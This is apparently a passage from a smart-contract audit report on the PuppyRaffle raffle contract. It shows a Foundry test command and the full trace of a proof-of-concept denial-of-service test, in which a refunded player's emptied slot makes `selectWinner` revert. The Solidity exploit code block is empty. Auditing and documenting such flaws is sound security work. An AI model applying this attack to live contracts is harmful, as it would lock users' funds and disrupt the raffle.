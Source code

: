```solidity
```



#### Run The Test

```bash
forge test --mt testDosAttack -vvvv
```



#### Output

```bash
[PASS] testDosAttack() (gas: 266120)
Traces:
  [337916] PuppyRaffleTest::testDosAttack()
    ├─ [121825] PuppyRaffle::enterRaffle{value: 4000000000000000000}([0x0000000000000000000000000000000000000001, 0x0000000000000000000000000000000000000002, 0x0000000000000000000000000000000000000003, 0x0000000000000000000000000000000000000004])
    │   ├─ emit RaffleEnter(newPlayers: [0x0000000000000000000000000000000000000001, 0x0000000000000000000000000000000000000002, 0x0000000000000000000000000000000000000003, 0x0000000000000000000000000000000000000004])
    │   └─ ← [Stop]
    ├─ [0] VM::warp(86402 [8.64e4])
    │   └─ ← [Return]
    ├─ [0] VM::roll(2)
    │   └─ ← [Return]
    ├─ [0] VM::prank(Identity: [0x0000000000000000000000000000000000000004])
    │   └─ ← [Return]
    ├─ [34296] PuppyRaffle::refund(3)
    │   ├─ [15] PRECOMPILES::identity{value: 1000000000000000000}(0x)
    │   │   └─ ← [Return]
    │   ├─ emit RaffleRefunded(player: Identity: [0x0000000000000000000000000000000000000004])
    │   └─ ← [Stop]
    ├─ [0] VM::expectRevert(custom error 0xf4844814)
    │   └─ ← [Return]
    ├─ [73702] PuppyRaffle::selectWinner()
    │   ├─ [0] 0x0000000000000000000000000000000000000000::fallback{value: 3200000000000000000}()
    │   │   └─ ← [OutOfFunds] EvmError: OutOfFunds
    │   └─ ← [Revert] revert: PuppyRaffle: Failed to send prize pool to winner
    ├─ [0] VM::deal(PuppyRaffle: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], 4000000000000000000 [4e18])
    │   └─ ← [Return]
    ├─ [0] VM::expectRevert(custom error 0xf28dceb3:   ERC721: mint to the zero address)
    │   └─ ← [Return]
    ├─ [73831] PuppyRaffle::selectWinner()
    │   ├─ [0] 0x0000000000000000000000000000000000000000::fallback{value: 3200000000000000000}()
    │   │   └─ ← [Stop]
    │   └─ ← [Revert] revert: ERC721: mint to the zero address
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.44ms (294.85µs CPU time)

Ran 1 test suite in 954.44ms (2.44ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
